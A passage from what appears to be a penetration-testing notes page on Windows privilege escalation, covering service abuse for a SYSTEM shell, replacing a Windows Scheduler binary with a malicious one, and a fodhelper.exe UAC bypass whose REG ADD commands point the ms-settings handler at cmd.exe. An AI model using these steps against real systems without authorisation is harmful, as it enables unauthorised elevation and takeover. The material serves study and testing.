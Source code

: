 After starting our new service we will get the System shell on our handler:

```text
sc start <service_name>
```

## Windows Scheduler

Similar to crontab, Windows Scheduler is a component of _Microsoft Windows_ that provides the ability to _schedule_ the launch of programs or scripts at pre-defined times.

If you found some of this running proceses `tasklist`, maybe you need to take a look:

```text
WScheduler.exe
WService.exe
# Some other binary that starts with WS (WindowsScheduler)
```

So we will examinate the Events System Sheduler directory: `C:\Program Files (x86)\SystemScheduler\Events` 

Find some logs files to see which program is scheduled, and replace the binary with yout malicious one.

## Bypass UAC

User Account Control \(UAC\) is an access control system that forces applications and tasks to run in the context of a non-administrative account until an administrator authorizes elevated access. 

UAC can be bypassed in various ways.

### fodhelper.exe

`fodhelper.exe` is a Microsoft support application responsible for managing language changes in the operating system. This binary runs as `high integrity` on Windows 10.

With `sigcheck.exe` from [SysInternals ](https://docs.microsoft.com/en-us/sysinternals/)is posible to inspect the application manifest.

```text
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
```

{% hint style="info" %}
**Note:** Search for `requestedExecutionLevel` as `requireAdministrator` and `autoElevate` in `true`.
{% endhint %}

First we need to add some registries with REG:

```text
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```

## References
